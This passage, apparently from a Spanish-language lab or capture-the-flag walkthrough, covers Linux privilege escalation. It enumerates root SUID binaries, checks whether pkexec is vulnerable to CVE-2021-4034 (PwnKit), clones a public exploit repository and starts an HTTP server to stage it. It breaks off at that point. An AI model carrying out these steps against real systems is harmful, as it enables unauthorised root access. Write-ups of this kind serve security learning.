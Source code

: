 ```
find / -type f -perm -4000 -user root 2>/dev/null
```

![Imagen028](28.jpeg)

Entre todos los binarios, vemos el binario pkexec. Lo que vamos a hacer es comprobar si la versión de pkexec, es vulnerable o si ha sido parcheada. La versión pkexec vulnerable a CVE-2021-4034 ("PwnKit") es la 0.105. Dentro de esta versión, si se le han aplicado los parches necesarios para evitar esta vulnerabilidad, tendríamos que tener la versión 0.105-26.1 o superior. Si la versión es inferior a 0.105-26, el sistema seguirá siendo vulnerable. Vamos a comprobarlo

```bash
pkexec --version
dpkg -l | grep policykit-1 | xargs
```

![Imagen029](29.jpeg)

Lo primero que haremos será ir a la siguiente cuenta de Github y clonarnos en nuestro equipo de atacante el siguiente repositorio.

```bash
git clone https://github.com/Almorabea/pkexec-exploit
```

Nos montamos un servidor HTTP con Python

```bash
python3 -m http.server 80
```
